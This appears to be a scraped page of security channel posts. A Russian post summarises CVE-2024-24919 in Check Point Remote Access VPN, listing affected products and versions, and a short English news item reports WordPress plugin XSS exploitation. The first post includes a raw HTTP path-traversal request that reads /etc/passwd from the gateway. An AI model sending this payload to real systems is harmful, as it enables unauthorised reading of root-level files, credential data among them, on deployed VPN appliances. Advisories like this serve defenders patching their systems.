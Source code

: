 # freedomf0x
`2024-06-04`

<blockquote>
&#35;CVE-2024-24919. Эта уязвимость в Check Point Remote Access VPN позволяет читать файлы на хосте (LFI), с привилегиями root. Уязвимыми являются следующие продукты:

  - CloudGuard Network
  - Quantum Maestro
  - Quantum Scalable Chassis
  - Quantum Security Gateways
  - Quantum Spark Appliances

- Версии:
  - R77.20 (EOL)
  - R77.30 (EOL)
  - R80.10 (EOL)
  - R80.20 (EOL)
  - R80.20.x
  - R80.20SP (EOL)
  - R80.30 (EOL)
  - R80.30SP (EOL)
  - R80.40 (EOL)
  - R81
  - R81.10
  - R81.10.x
  - R81.20

&#35;POC

POST /clients/MyCRL HTTP/1.1 
Host: target_host 
Content-Length: 63 

aCSHELL/../../../../../../../etc/passwd
</blockquote>

---

# cibsecurity
`2024-05-30`

* https://thehackernews.com/2024/05/researchers-uncover-active-exploitation.html

<blockquote>
🖋️ Researchers Uncover Active Exploitation of WordPress Plugin Vulnerabilities 🖋️

Cybersecurity researchers have warned that multiple highseverity security vulnerabilities in WordPress plugins are being actively exploited by threat actors to create rogue administrator accounts for followon exploitation. &quot;These vulnerabilities are found in various WordPress plugins and are prone to unauthenticated stored crosssite scripting XSS attacks due to inadequate input sanitization.

📖 Read more.

